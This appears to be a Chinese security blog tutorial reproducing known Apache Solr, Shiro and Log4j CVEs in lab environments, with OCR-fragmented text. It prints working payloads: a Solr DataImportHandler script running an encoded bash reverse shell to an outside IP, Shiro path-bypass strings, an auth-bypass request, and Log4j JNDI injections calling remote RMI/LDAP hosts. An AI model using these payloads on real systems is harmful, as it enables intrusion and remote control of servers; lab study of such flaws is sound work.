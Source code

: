 #  Solrs搜索&Shrio鉴权&Log4j日志&CVE历史漏洞  
原创 朝阳  Sec朝阳   2025-07-13 13:26  
  
# Solr：（Vulfocus复现）  
  
  
主要基于HTTP和Apache Lucenne实现的全文搜索服务器  
  
#  
Solr  
：  
(  
Vulfocus  
复现  
)  
  
主要基于HTTP和  
Apache  
Lucene  
实现的全文搜索服务器。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Solr  
  
黑盒特征：图标及端口  
8393  
## 1、远程命令执行漏洞（CVE-2019-0193）  
  
Apache  
Solr  
5.0.0  
版本至  
8.3.1  
  
https  
://  
github  
.  
com  
/  
jas502n  
/  
solr_rce  
  
D  
:  
\  
Python27  
\python  
.  
exe solr_rce  
.  
py http  
://  
123.58.236.76  
:  
50847  
 id  
  
这里使用kali进行RCE  
  
python2 solr_rce.py http  
://  
123.58.236.76  
:  
50847  
 id  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHibYOP9BoWouwa0h8uUj2uMMicIP2ibaCdTWItWQLotTEVAOPnBETHxlsA/640?wx_fmt=png&from=appmsg "")  
  
打开环境就是这样一个环境，然后该漏洞对Solr服务版本有要求  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH31upllzYcGib1tBUz2ntzrWuicUxJuLJ0fW6BspkZE3N9uanxM1bXbcQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHtp7SU7IgqhLa1icxrPJDt8ztnGqHw9q4MUE6Kc52ZVPtH6p7iaWsvxUQ/640?wx_fmt=png&from=appmsg "")  
  
执行成功，这里要注意一定要确保环境配置正确，并且使用python2环境去运行  
## 2、远程命令执行漏洞(CVE-2019-0193)  
  
Apache  
Solr  
<  
8.2.0  
版本  
  
https  
://  
vulhub  
.  
org  
/  
#  
/  
environments  
/  
solr  
/  
CVE  
-  
2019  
-  
0193  
/  
  
条件  
1  
：  
Apache  
Solr  
的  
DataImportHandler  
启用了模块  
DataImportHandler  
(  
默认不会被启用  
)  
  
条件  
2  
：  
SolrAdmin  
 UI未开启鉴权认证。（默认情况无需任何认证）  
  
选择已有核心后选择  
Dataimport  
功能并选择debug模式，更改填入以下POC，点击  
Execute  
withthis  
Confuguration  
  
POC：  
  
<dataConfig>  
  
<  
dataSource type  
=  
"URLDataSource"  
/>  
  
<script>  
<!  
[  
CDATA  
[  
  
function poc(){java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjY2LjEyOS82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}");  
  
}  
  
]]  
></  
script  
>  
  
<document>  
  
<  
entity name  
=  
"stackoverflow"  
  
url  
=  
"https://stackoverflow.com/feeds/tag/solr"  
  
processor  
=  
"XPathEntityProcessor"  
  
forEach  
=  
"/feed"  
  
transformer  
=  
"script:poc"  
/>  
  
</  
document  
>  
  
</dataConfig>  
  
这里我们要注意关键命令在于这段代码，base64解密一下  
  
YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45NC4yMzYuMTE3LzU1NjYgMD4mMQ==  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHIqGU4E42hlXxZlxGPpF5tDykLvpiaoxvMice9mYMBVzt5t8YSicPvxfFA/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHDUUD0mmOh5R1ljiaHYicZcH487xzCrPLxlygjBDlbu1IicHL5lvHcghiag/640?wx_fmt=png&from=appmsg "")  
  
因此我们构造一下这个反弹shell的ip端口即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHN2ObL22ZnKTleYBPFtDWnibbeSrTOqNW52eZOMgian1DUDsAVALu907w/640?wx_fmt=png&from=appmsg "")  
  
然后点击下面的执行蓝框即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH5e8bL2nzUucH5iaianc1vVxZvW7aBFpEBvWkpOOhOKpYjNOMJW2uibVicA/640?wx_fmt=png&from=appmsg "")  
## 3、认证绕过漏洞（CVE-2024-45216）  
  
参考：https  
://  
mp  
.  
weixin  
.  
qq  
.  
com  
/  
s  
/  
Ke3hzJ2iGSekrsFpZV263w  
  
关键点：GET   
/  
solr  
/  
admin  
/  
info  
/  
properties  
:/  
admin  
/  
info  
/  
key  
  
漏洞版本：  
  
  
5.3.0 <= Apache Solr < 8.11.4  
  
    9.0.0 <= Apache Solr < 9.7.0  
  
资产测绘：  
  
app=  
"APACHE-Solr"  
  
POC：  
```
GET /solr/admin/info/properties:/admin/info/key 
HTTP/1.1Host: XXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHGIzcd00rd77ib4AyKwFLm1icfMwt90tRjbKmfgJMocicMSuic8Kek7gTWw/640?wx_fmt=png&from=appmsg "")  
## 4.文件上传路径遍历漏洞（CVE-2024-52012）  
  
参考：https  
://  
mp  
.  
weixin  
.  
qq  
.  
com  
/  
s  
/  
uYGLIcu0VUA3sB6heBUBrg  
  
#  
Shiro  
：  
(  
本地源码复现  
)  
  
Java  
安全框架，能够用于身份验证、授权、加密和会话管理。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Shiro  
  
黑盒特征：数据包cookie里面rememberMe  
  
范围：  
6.6 - 9.7.0  
  
POC:  
```
import zipfile

# 创建ZIP文件并添加文件
with zipfile.ZipFile('0.zip', 'w') as zipf:
    zipf.writestr("0.txt", "hello world, 0")
    zipf.writestr("../a.txt","hello world")
    zipf.writestr("../a.class.","class test")
```  
# Shiro：(本地源码复现)  
  
Java  
安全框架，能够用于身份验证、授权、加密和会话管理。鉴权用的。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Shiro  
  
黑盒特征：数据包cookie里面rememberMe  
## 1、CVE_2016_4437 Shiro-550+Shiro-721  
  
影响范围：  
Apache  
Shiro  
<=  
1.2.4  
  
工具箱利用项目搜哈  
  
这里如果我们登录返回admin page，登陆失败返回please login！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHSUxssgCtwyK1eQRcxD5YHpC7ticvdzn3szGFojsKjJKicNic3D0qCYaZA/640?wx_fmt=png&from=appmsg "")  
  
这里无论怎么访问都是这个页面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHfqwWg9Kdjon4rlq5rEvJTqWKkYtkyXTYze2tSRrpwxcSJwcscMFklw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHeAGWjQGiaP2wf5eeM4vucHiack8Q6hRGwTvODfO9Sea3Jx9d1G9IIjfA/640?wx_fmt=png&from=appmsg "")  
  
这里后面加上%20即可绕过  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHzBgnCf1WM6AGxGaelicV7omziaViaicEbCBtTtcSGwpXyoFeN2JfH5icuXw/640?wx_fmt=png&from=appmsg "")  
## 2、CVE-2020-11989  
  
Poc  
：  
/  
admin  
/%  
20  
  
影响范围：  
ApacheShiro  
<  
1.7.1  
## 3、CVE-2020-1957  
  
Poc  
：  
/  
xxx  
/  
..;  
/  
admin  
/  
  
影响范围：  
ApacheShiro  
<  
1.5.3  
## 4、Shiro-721RCE  
  
shiro-721 代码执行  
### 漏洞特征  
  
漏洞利用原理，反序列化的aes密钥key   
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHtyTHC20vyLZxykZGw0WwNGQoG7iaCDqH1OicK2MjeWP27mqdG1AAQfZw/640?wx_fmt=png&from=appmsg "")  
  
请求包发送后响应包带有rememberMe字样  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHkF78yvy2Au2fClic4Oac3E5nD6vWwgVzqaXOFt1wR5yyUvUlhA0cb5g/640?wx_fmt=png&from=appmsg "")  
  
返回包时也会带有rememberMe字样  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH2hYfv6dl8ZE4Ic4fnWNdqzTrEUPafYmr3KwA2PFribWBPcFfD38t4Hw/640?wx_fmt=png&from=appmsg "")  
### 漏洞利用  
  
这里我们登陆成功后会带有我们的密钥key，使用工具检测一下，然后就能构造人命令了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHI6SDRDicVO0BkG9icgIcJuPs3SBvk8gFoNnmwduqJ8W4keRywYTRP2Wg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHxiaNBvH6o8aiafW1HydgYYU3cnwc20hE3eamyjcNHc2ZxroF9ichAU9Yw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHPPiapL7QEJIlfqLZU1wmXKaQUgeibf6tLymYC5yYc1bzOEfawvnd0n5Q/640?wx_fmt=png&from=appmsg "")  
  
然后使用命令执行功能即可  
# Log4j：(Vulhub和本地源码复现)  
  
Apache  
的一个开源项目，是一个基于  
Java  
的日志记录框架。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Log4j  
  
黑盒特征：  
  
红队盲打，将payload插入到任何地方   
  
会问蓝队攻击特征（$  
{  
jndi  
:  
rmi  
:/  
//osutj8}）  
## 1、Log4j2远程命令执行（CVE-2021-44228）  
  
漏洞影响的产品版本包括：  
  
Apache  
Log4j2  
2.0  
-  
2.15.0  
-  
rc1  
  
1  
、生成反弹  
Shell  
的JNDI注入  
  
jjava -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjY2LjE1Mi85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.66.152  
  
工具构造Paload  
  
2、POC  
  
http://192.168.66.152:8983/solr/admin/cores?action=${jndi:rmi://192.168.66.152:1099/i9gdvn}  
  
这里使用log4j加密工具  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHaHF5vLMou1qpGnamGxCQX0F3JLhdUKicxel4vKHiciaC1efRsBTbbGs4A/640?wx_fmt=png&from=appmsg "")  
  
${jdni:ldap://127.0.0.1:50389/50470e}}  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHwibCvgBuEBVNWzeZyM0fHakeFZBPye6HGXBdd1fT12LuMxBp6dxwgCA/640?wx_fmt=png&from=appmsg "")  
  
这里vulhub启动一个log4j的漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHHbHWHjkxXGicqznpSeMiaEdPCOltQDiaZMkdU868QVLpDB4EgJ0Rh4JIg/640?wx_fmt=png&from=appmsg "")  
  
这里进行一个base64的编码，因为要做jndi注入  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHoTfBgMs2Z81UNbibxZYCwRCUDO9zAFZ9FVvA7zdXKPS2BzcM2jmlQdA/640?wx_fmt=png&from=appmsg "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH9UXk8uyrzWsrbYicb4pwXE0krlKiaIUncW29fpoQpIA2ibPjOribNmK9QA/640?wx_fmt=png&from=appmsg "")  
  
这里就生成了jndi的恶意注入  
```
http://ip:8983/solr/admin/cores?action=${jndi:rmi://172.18.0.1:1099/vfchso}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHxVxNxt4rVbNKKB3gQeEdQIqXUicquL9exdggZyZz7zN97TR10CPIUTA/640?wx_fmt=png&from=appmsg "")  
  
这里就监听到了  
  
这里一定注意，jndi注入需要jdk低版本，高版本不适应，需要去学习高版绕过  
  
jdk版本过高、没有漏洞会、不出网造成无法注入  
  
2  
、构造JNDI注入  
Payload  
提交  
  
$  
{  
jndi  
:  
rmi  
://  
47.94.236.117  
:  
1099  
/  
osutj8  
}  
  
%  
24  
%  
7  
b  
%  
6  
a  
%  
6  
e  
%  
64  
%  
69  
%  
3  
a  
%  
72  
%  
6d  
%  
69  
%  
3  
a  
%  
2f  
%  
2f  
%  
34  
%  
37  
%  
2  
e  
%  
39  
%  
34  
%  
2  
e  
%  
32  
%  
33  
%  
36  
%  
2  
e  
%  
31  
%  
31  
%  
37  
%  
3  
a  
%  
31  
%  
30  
%  
39  
%  
39  
%  
2f  
%  
6f  
%  
73  
%  
75  
%  
74  
%  
6  
a  
%  
38  
%  
7d  
  
  
